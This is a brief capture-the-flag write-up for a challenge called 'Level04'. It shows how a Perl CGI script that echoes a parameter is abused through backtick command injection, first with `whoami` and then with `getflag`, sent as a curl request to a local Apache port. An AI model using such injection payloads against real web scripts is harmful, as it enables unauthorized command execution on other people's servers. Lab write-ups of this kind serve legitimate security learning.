# Level04

We have a perl script which runs `echo` on the param `x` given
./level04.pl x=`whoami` -> We try to add more shell commands, we have to put our command in quote in order to be interpreted by the perl script, it work but it is run as `level04`

Maybe this script is run by the server.
Lets find out: 
`ps aux` -> apache is running
Lets get the config:
`cat /etc/apache2/ports.conf` -> it listens on 80, 4646, 4747
Lets try with curl now:
`curl 'localhost:4747/level04.pl?x=`whoami`'`

payload -> `curl 'localhost:4747/level04.pl?x=`getflag`'`
